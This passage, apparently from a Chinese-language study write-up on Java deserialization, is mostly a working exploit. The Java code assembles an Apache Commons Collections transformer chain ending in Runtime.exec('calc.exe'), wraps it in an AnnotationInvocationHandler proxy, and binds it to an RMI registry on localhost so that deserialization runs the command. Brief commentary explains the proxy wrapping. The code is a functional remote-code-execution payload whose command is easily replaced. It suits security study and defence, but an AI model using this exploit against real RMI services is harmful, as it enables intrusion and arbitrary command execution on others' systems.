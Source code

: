 ```

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        Map map = (Map)constructor.newInstance(innermap,chain);


        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler); //创建proxy对象


        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler);
        registry.bind("test",r);

    }
}
```

这里因为 bind 的参数是需要是 Remote 类型，不能直接传入一个InvocationHandler，所以这里用代理的方式进行了一个封装，网上看到的大多数是用Remote.class.cast进行一个强制类型转换

当r被反序列化的时候，handler也会被反序列化，自然可以执行后面的链子

![image-20220411174802169](images/1.png)
